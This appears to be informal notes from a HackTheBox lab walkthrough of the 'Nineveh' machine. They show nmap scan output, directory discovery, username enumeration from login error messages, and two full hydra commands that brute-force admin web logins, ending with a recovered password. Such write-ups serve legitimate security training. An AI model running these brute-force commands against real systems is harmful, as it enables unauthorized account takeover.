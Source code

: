 Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 20:12 EDT
Nmap scan report for nineveh.htb (10.129.162.247)
Host is up (0.29s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 Bad Request
| tls-alpn: 
|_  http/1.1

the certificcate ot https site:

![](20230529201755.png) indiactes admin user exists

Login.php at /department by gobuster

gives invalid username and password error messages

![](20230529203531.png)

this indiacates that admin user exists

`sqlmap -r login.req` - no results

how to bruteforce for admin


also run gobuster onhttps site and we get /db page

using hydra

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid"
```

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect"

```

found a password
![](20230529212256.png)

[80][http-post-form] host: 10.129.162.247   login: admin   password: 1q2w3e4r5t

![](20230529214536.png)

